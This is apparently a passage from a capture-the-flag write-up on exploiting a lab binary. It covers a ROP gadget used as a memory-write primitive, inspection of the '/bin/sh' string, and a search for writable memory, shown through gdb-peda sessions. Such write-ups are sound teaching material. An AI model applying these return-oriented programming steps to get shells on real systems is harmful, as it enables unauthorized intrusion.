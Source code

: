 The most important one is:
```
0x0000000000400c8e: mov dword ptr [rbp - 8], eax; pop rax; ret;
```

This will copy the content of the register `eax` (note it is not `rax`) at
the memory location referenced in the register `rbp` minus 8. Therefore if we
put a destination memory address + 8 into `rbp`, we are able to write 4 bytes
to it.


## write-to-memory function

The string "/bin/sh\x00" is already located in memory. We can use this
to look at the 4-byte little endian representation of it.

```
gdb-peda$ x /s 0x400ed8
0x400ed8:	"/bin/sh"
gdb-peda$ x/1xg 0x400ed8
0x400ed8:	0x0068732f6e69622f

gdb-peda$ x/1xw 0x400ed8
0x400ed8:	0x6e69622f
gdb-peda$ x/1xw 0x400ed8 + 4
0x400edf:	0x0068732f
```


## writeable memory

We need a memory location where we can write "/bin/sh" to.
We will use the rw memory of the code section:
```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00402000         r-xp	/root/challenges/challenge17/challenge17
0x00601000         0x00602000         r--p	/root/challenges/challenge17/challenge17
0x00602000         0x00603000         rw-p	/root/challenges/challenge17/challenge17
```

Content:
```
gdb-peda$ x/32x 0x00602000
0x602000:	0x0000000000601e28	0x00007ff1a930f168
0x602010:	0x00007ff1a90ff6a0	0x00007ff1a8e26c80
0x602020:	0x0000000000400816	0x0000000000400826
0x602030:	0x00007ff1a8e37ae0	0x00007ff1a8d747b0
0x602040:	0x0000000000400856	0x0000000000400866
0x602050:	0x0000000000400876	0x00007ff1a8d3f740
0x602060:	0x0000000000400896	0x00007ff1a8e26950
0x602070:	0x00007ff1a8e26830	0x00000000004008c6
0x602080:	0x00007ff1a8dad7d0	0x00007ff1a8e267d0
0x602090:	0x00000000004008f6	0x0000000000400906
0x6020a0:	0x0000000000400916	0x00007ff1a8e26ce0
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0 <binsh>:	0x0000000000400ed8	0x00007ff1a90e3620
0x6020d0 <completed.7585>:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
gdb-peda$
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000000000
```
